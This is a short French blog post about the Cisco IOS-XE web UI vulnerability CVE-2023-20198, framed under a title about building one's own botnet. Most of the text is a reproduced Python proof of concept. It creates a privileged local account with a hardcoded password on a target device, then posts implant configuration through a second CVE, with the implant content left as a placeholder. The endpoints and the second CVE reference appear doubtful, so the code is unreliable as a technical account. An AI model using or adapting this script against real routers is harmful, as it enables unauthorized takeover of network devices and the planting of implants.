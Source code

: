 ```yaml
---
title: "CVE-2023-20198 Cisco IOS-XE ZeroDay - Ou comment créer son réseau de botnet ?"
date: 2023-10-20T10:00:00+01:00
draft: false
images: [/images/cisco-cve-2023-20198/cisco.png]
featuredImage: "/images/cisco-cve-2023-20198/cisco.png"
featuredImagePreview: "/images/cisco-cve-2023-20198/cisco.png"
---
```


# 🧟 Cisco CVE-2023-20198 - Ou comment créer son réseau de botnet ?

## Introduction

Le 16 octobre 2023, Cisco a communiqué sur une vulnérabilité critique d'élevation de privilèges via l'interface Web sous l'identifiant CVE-2023-20198 au score CVSS de 10.

Cisco affirme que la vulnérabilité est largement exploitée. La vulnérabilité permet à un attaquant non authentifié de créer un compte aux privilèges maximales. Il n'existe pas de correctif pour cette vulnérabilité pour le moment.

## Détails de l'exploitation

L'exploitation est relativement simple. Il n'existe pas de PoC clef en main pour cette vulnérabilité. Cependant, un exploit est disponible sur GitHub à l'heure où cet article est rédigé (vendredi 20 octobre 2023 à 12h00). Lien : https://github.com/Tounsi007/CVE-2023-20198

Contenu du PoC :

```py
import requests

# Exploit CVE-2023-20198 to create a local user account
create_user_url = "https://target.com/webui/create_user"
username = "cisco_tac_admin"
password = "P@ssw0rd"

user_payload = {
    "username": username,
    "password": password
}

response = requests.post(create_user_url, data=user_payload, verify=False)

if response.status_code == 200:
    print(f"Successfully created local user account: {username}")

# Exploit CVE-2021-1435 to install the implant
install_url = f"https://target.com/webui/cisco_service.conf"
config_content = "<insert implant configuration content here>"

config_payload = {
    "config_content": config_content
}

response = requests.post(install_url, data=config_payload, verify=False)

if response.status_code == 200:
    print("Implant installed successfully")

# Restart the web server to activate the implant
```